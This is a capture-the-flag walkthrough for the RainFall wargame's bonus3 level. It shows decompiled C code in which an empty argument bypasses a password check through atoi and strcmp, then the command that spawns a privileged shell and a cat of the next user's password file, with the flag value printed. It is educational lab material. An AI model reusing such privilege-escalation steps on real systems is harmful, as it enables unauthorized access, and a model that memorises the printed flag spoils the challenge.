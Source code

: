 # RainFall Walkthrough — Bonus3 → end

## Step 1 — Program Structure

The binary is a **C program** that reads a file containing a secret password and compares it to user input:

```c
int main(int argc, struct_0 *argv) {
    char buf[33];
    char second[65];
    FILE *f;

    f = fopen("/home/user/end/.pass", "r");
    memset(buf, 0, 33);

    if (f && argc == 2) {
        fread(buf, 1, 66, f);           // read first line
        buf[atoi(argv->field_4)] = 0;   // terminate at index atoi(input)
        fread(&second, 1, 65, f);       // read second line
        fclose(f);

        if (!strcmp(buf, argv->field_4))
            execl("/bin/sh", "sh");     // spawn shell
        else
            puts(second);
    }
    return 0xffffffff;
}
```

Key points:

* Reads the password file into a fixed-size buffer.
* Uses **`atoi(argv[1])` to determine where to place the terminating null**.
* Compares `buf` against user input.
* Shell spawns only if **strings match exactly** after null-termination.

---

## Step 2 — Vulnerable Logic

The vulnerability is **logical, not a classic buffer overflow**:

1. `atoi(argv[1])` controls the **index at which `\0` is placed**.
2. `strcmp(buf, argv[1])` requires the **buffer to exactly match user input**.
3. Special case: **empty input `""`** sets `atoi("") = 0`, which allows `buf[0] = 0` and matches `""`.

👉 Input `"0"` does **not** work because:

* `atoi("0") = 0`
* `buf[0] = 0` but `argv[1] = "0"`
* `strcmp` fails because `"\0" != "0"`

---

## Step 3 — Exploit Strategy

1. Provide an **empty string** as input (`""`).
2. The program sets `buf[0] = 0`.
3. `strcmp(buf, argv[1])` succeeds because both are empty strings.
4. `execl("/bin/sh", "sh")` is called, spawning a shell.

No shellcode or buffer overflow is needed — this is a **logic-based exploit**.

---

## Step 4 — Memory Visualization

### Before Input

```
buf[0..32] = 0
argv->field_4 = ? (uninitialized until input)
```

### After Input ""

```
atoi("") = 0
buf[0] = 0
argv->field_4 = ""
strcmp(buf, argv->field_4) → match
execl("/bin/sh")
```

### After Input "0"

```
atoi("0") = 0
buf[0] = 0
argv->field_4 = "0"
strcmp(buf, argv->field_4) → mismatch
no shell
```

---

## Step 5 — Running the Exploit

```bash
./bonus3 ""
```

Outcome:

* You are now `end`.
* Can read the password:

```bash
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

* Exit shell:

```bash
$ exit
```

---

## Step 6 — Key Takeaways

* Not all RainFall exploits involve buffer overflows.
* **Logic flaws** using functions like `atoi()` and `strcmp()` can grant shell access.
* Always analyze **how user input is transformed** before comparison.
* Edge cases (empty string, negative numbers) can bypass normal checks.

---

This approach gives the shell **without needing NX bypass or shellcode injection**.